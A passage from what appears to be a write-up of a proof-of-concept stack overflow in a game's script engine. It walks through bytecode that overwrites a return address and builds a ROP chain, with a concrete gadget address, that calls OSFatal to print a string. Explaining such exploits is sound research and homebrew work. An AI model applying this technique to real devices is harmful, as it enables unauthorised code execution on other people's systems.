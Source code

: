 ```asm
pushShort. 0x30
#script_1 is the offset of the second "script", which contains our string to print out
pushInt. script_1
addi.
i+= globalVar,mscScriptAddress
#mscScriptAddress = 0x30 + mscFileAddress + relativeAddress of script_1 (the string)
```
Just some math to calculate the absolute offset to the spot in the file where we are storing the string. Not really important how it works besides that.

```asm
#Get back to end of stack for overflow for the millionth time
pushShort. 0x1
pushShort. 0x2
... (etc)
pushShort. 0x7f
pushShort. 0x80
```

Self explanatory.

```asm
#Now we can overwrite the stack position with the one we calculated earlier to jump to the write position
pushVar. globalVar,calculatedStackPosition
```
Overwrite with our previously calculated index. This (in my source) is the next return address on the stack. Now all we have to do is write our ROP chain, end the script and our code executes. Essentially the PoC chain just does:

* Sets the return address to some code that will load an r3 value then return
* Puts the address of our string that we calculated at the position r3 will be loaded from
* Fills a lot of values we don't need
* Makes the next return address be where OSFatal is locted in memory on 5.5.X
* **Note:** r3 is used as the only parameter of OSFatal which is the address of the string to print

```asm
#Write ROP chain
pushInt. 0xC00C650  #Gadget to load the r3 value
pushVar. globalVar,mscScriptAddress #r3 value (will be printed by OSFatal)
pushInt. 0xBEEF0001
pushInt. 0xBEEF0002
pushInt. 0xBEEF0003
pushInt. 0xBEEF0004
pushInt. 0xBEEF0005
pushInt. 0xBEEF0006
pushInt. 0xBEEF0007
pushInt. 0xBEEF0008
pushInt. 0xBEEF0009
pushInt. 0xBEEF000A
pushInt. 0xBEEF000B
pushInt. 0xBEEF000C
pushInt. 0xBEEF000D
pushInt. 0xBEEF000E
pushInt. 0xBEEF000F
pushInt. 0xBEEF0010
pushInt. 0xBEEF0011
pushInt. 0xBEEF0012
pushInt. 0xBEEF0013
pushInt. 0xBEEF0014
pushInt. 0xBEEF0015
pushInt. 0xBEEF0016
pushInt. 0xBEEF0017
pushInt. 0xBEEF0018
pushInt. 0xBEEF0019
pushInt. 0xBEEF001A
```